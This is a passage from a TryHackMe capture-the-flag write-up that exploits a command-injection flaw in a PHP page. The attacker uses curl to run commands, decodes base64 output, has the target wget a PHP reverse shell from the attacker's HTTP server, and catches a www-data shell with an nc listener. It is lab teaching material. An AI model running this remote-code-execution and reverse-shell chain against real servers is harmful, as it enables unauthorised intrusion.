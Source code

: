 Since the variable of the query has been found, it’s time to see what the response would be if the input value is a Linux command line:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchoolOffical]
└─$ curl http://uahighschool.thm/assets/index.php?[REDACTED]=whoami                                              
d3d3LWRhdGEK
```

The response value is an encoded string, which is quite similar to **`base64`** encode. Let’s try:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchoolOffical]
└─$ curl http://uahighschool.thm/assets/index.php?[REDACTED]=whoami | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    12  100    12    0     0     22      0 --:--:-- --:--:-- --:--:--    22
www-data
```

Excellent! We can now gather more details about the target system by utilizing the query string. However, I suggest setting up a reverse shell for enhanced versatility and convenience.

### RCE → www-data

First of all, I prepared a reverse shell on my local machine and started the HTTP server. Then sent a request with the query to download the reverse shell on my local machine to the target system:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchool]
└─$ python3 -m http.server 4444   
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchoolOffical]
└─$ curl http://uahighschool.thm/assets/index.php?[REDACTED]="wget+http://10.9.63.75%3a4444/php-reverse-shell.php"
```

Started the listener on the local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchoolOffical]
└─$ nc -lvnp 4242        
listening on [any] 4242 ...
```

And sent a request to execute the reverse shell on the target system:

```
curl http://uahighschool.thm/assets/php-reverse-shell.php  
```

Finally, the shell was connected:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchoolOffical]
└─$ nc -lvnp 4242        
listening on [any] 4242 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.248.254] 47386
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 04:21:18 up  1:36,  0 users,  load average: 0.02, 0.42, 6.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
